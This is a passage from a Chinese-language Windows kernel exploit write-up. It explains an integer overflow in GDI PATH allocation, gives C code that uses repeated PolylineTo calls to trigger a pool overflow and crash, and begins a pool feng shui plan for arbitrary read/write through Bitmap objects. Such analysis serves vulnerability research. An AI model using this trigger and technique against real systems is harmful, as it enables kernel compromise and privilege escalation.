 接着左移了4位，注意这里是使用了长度为32位的寄存器。

那么我们可以构造：

> 0xffffffff / 3 = 0x55555555
>
> 0x100000002 / 3 = 0x55555556

当rax被传入0x55555556后，乘3得到0x100000002 ，左移4位结果为0x00000020（ecx）。rax的值存储的是PATH obj的points数目，该值可以通过多次调用`PolylineTo`函数控制，下面的代码可以触发一个只分配到50bytes内存的情况。

```C
//Create a Point array 
static POINT points[0x3fe01];
// Get Device context of desktop hwnd
HDC hdc = GetDC(NULL);
// Get a compatible Device Context to assign Bitmap to
HDC hMemDC = CreateCompatibleDC(hdc);
// Create Bitmap Object
HGDIOBJ bitmap = CreateBitmap(0x5a, 0x1f, 1, 32, NULL);
// Select the Bitmap into the Compatible DC
HGDIOBJ bitobj = (HGDIOBJ)SelectObject(hMemDC, bitmap);
//Begin path
BeginPath(hMemDC);
// Calling PolylineTo 0x156 times with PolylineTo points of size 0x3fe01.
for (int j = 0; j < 0x156; j++) {
	PolylineTo(hMemDC, points, 0x3FE01);
	}
}
// End the path
EndPath(hMemDC);
// Fill the path
FillPath(hMemDC);
```

通过调用`PolylineTo`0x3FE01次，创建0x3fe01个Points，有：

`0x156 * 0x3FE01 = 0x5555556`

需要注意的是，程序会在我们的创建的点中加入一个点，所以真正的Points数量为

`0x5555557 * 0x3 = 0x10000005`

`0x10000005 << 4 = 0x00000050`

在payload完成之后，程序只分配了50bytes的空间却想copy 0x5555557个Points，因为pool header的破坏，我们会得到一个BSoD，crash触发成功。

## 0x3 Kernel Pool FengShui

### Part I 理论

内核池风水是一种利用多种/重复分配、释放内存的方法让内存布局到达可利用的状态的技术。

本次漏洞利用内核池风水的目的是设计两个相邻的object，第一个object溢出第二个object，然后利用第二个object获得读写任意内存的能力。选择的object是Bitmap，pool tag为Gh05，分配在相同的Page Session Pool，可通过 `SetBitmapBits/GetBitmapBits`读写~~任意~~地址。

